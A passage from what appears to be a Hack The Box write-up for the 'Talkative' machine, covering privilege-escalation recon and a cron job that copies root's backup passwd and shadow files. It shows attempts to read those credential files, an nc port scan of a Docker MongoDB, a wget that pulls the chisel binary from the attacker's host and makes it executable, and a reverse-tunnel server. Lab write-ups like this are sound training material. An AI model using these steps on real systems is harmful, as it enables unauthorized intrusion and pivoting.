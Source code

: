 In here, we can see that Docker container `172.18.0.2` is exposing ports to from `8080` to `8082`. Also, looks like there're 2 cronjobs??

There's a cronjob that's keep copying `/root/.backup/passwd` and `/root/.backup/shadow` to `/etc/passwd` and `/etc/shadow`.

**But we can't access `/root/.backup/`:**
```shell
saul@talkative:~$ ls -lah /root/.backup/
ls: cannot access '/root/.backup/': Permission denied
saul@talkative:~$ cat /root/.backup/shadow
cat: /root/.backup/shadow: Permission denied
```

And what does the `/root/.backup/update_mongo.py` Python script do...

**Let's scan for MongoDB port:**
```shell
saul@talkative:~$ nc -znv 172.17.0.2 27017
Connection to 172.17.0.2 27017 port [tcp/*] succeeded!
```

Docker container `172.17.0.2` has MongoDB!

If you look back to the `pspy` result, `172.17.0.2` has some exposed ports, which expose host port on `8080`, `8081`, and `8082`

In order to able to communicate with that Docker container's MongoDB, we need to do **port forwarding**.

**To do so, I'll use `chisel`.**

- **Transfer `chisel` binary:**

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Talkative)-[2023.08.12|17:15:09(HKT)]
└> file /opt/chisel/chiselx64 
/opt/chisel/chiselx64: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, Go BuildID=7_8YJqkxi62boFphyAPw/1S9upq0nqO2kgbZ3a_Dl/RzpzDIMQlYKZaIYq6DLA/5qj-7SInLNYqAPFQWVUA, stripped
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Talkative)-[2023.08.12|17:15:19(HKT)]
└> python3 -m http.server -d /opt/chisel 80 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```shell
saul@talkative:~$ wget http://10.10.14.6/chiselx64 -O /tmp/chisel; chmod +x /tmp/chisel
[...]
```

- **Setup a reverse port forwarding server on the attacker machine:**

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Talkative)-[2023.08.12|17:16:49(HKT)]
└> /opt/chisel/chiselx64 server -p 8888 --reverse
2023/08/12 17:16:49 server: Reverse tunnelling enabled
2023/08/12 17:16:49 server: Fingerprint UWqqTmmRIEeyggbLKF/kFIEGDNYiZ/XaOYjuT7Sbhik=
2023/08/12 17:16:49 server: Listening on http://0.0.0.0:8888
```
